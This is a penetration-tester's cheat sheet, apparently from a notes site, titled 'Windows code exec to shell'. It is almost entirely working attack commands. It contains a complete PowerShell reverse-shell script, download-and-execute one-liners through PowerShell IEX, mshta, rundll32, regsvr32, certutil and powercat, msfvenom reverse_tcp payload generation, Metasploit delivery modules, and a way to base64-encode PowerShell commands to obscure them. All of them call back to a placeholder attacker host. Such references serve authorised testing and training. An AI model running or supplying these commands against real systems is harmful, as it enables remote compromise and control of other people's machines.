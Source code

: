 # Windows code exec to shell

### Windows one-liners

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```

### powershell.exe

{% code title="shell.ps1" %}
```text
$client = New-Object System.Net.Sockets.TCPClient("<LHOST>",<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

```text
# serve shell.ps1
python3 -m http.server <port>

# execute on target
powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<LPORT>/shell.ps1\");"
```

#### Creating encoded powershell commands on linux

```text
echo -n "IEX (New-Object Net.WebClient).downloadstring('<thing_to_execute>')" | iconv --to-code UTF-16LE | base64 -w 0
```

### mshta.exe

Runs .hta \(HTML Application\) files

```text
# first, we generate hta-psh file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f hta-psh -o <file>.hta

# then we start server
python3 -m http.server <port>

# and run command on target host
mshta.exe http://<LHOST>:<port>/<file>.hta
```

```text
use exploit/windows/misc/hta_server

mshta.exe http://<attacker>/<path>.hta
```

### rundll32.exe

```text
# first, we generate dll file with msfvenom
msfvenom -p windows/shell/reverse_tcp LHOST=<lhost> LPORT=<lport> -f dll -o <file>.dll

# serve a file throught smb
sudo python3 ../smbserver.py -smb2support -user <user> -password <pass> <share> `pwd`

# execute on target
rundll32.exe \\<lhost>\<share>\<file>.dll,0
```

```text
use exploit/windows/smb/smb_delivery

rundll32.exe \\<attacker>\<path>\<file>.dll,0
```

### regsrv32.exe

```text
use exploit/multi/script/web_delivery

regsvr32 /s /n /u /i:http://<attacker>:<p>/<file>.sct scrobj.dll
```

### certutil.exe

```text
msfvenom -p windows/meterpreter/reverse_tcp lhost=<lhost> lport=<lport> -f exe > shell.exe

# host generated file
python3 -m http.server 80

# start listener (exploit/multi/handler)

certutil.exe -urlcache -split -f http://<target>/shell.exe shell.exe & shell.exe
```

### powershell.exe \(with powercat\)

```text
git clone https://github.com/besimorhino/powercat.git
python -m SimpleHTTPServer 80

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker>/powercat.ps1');powercat -c <attacker> -p <port> -e cmd"
```

### more ...

```text
https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
```

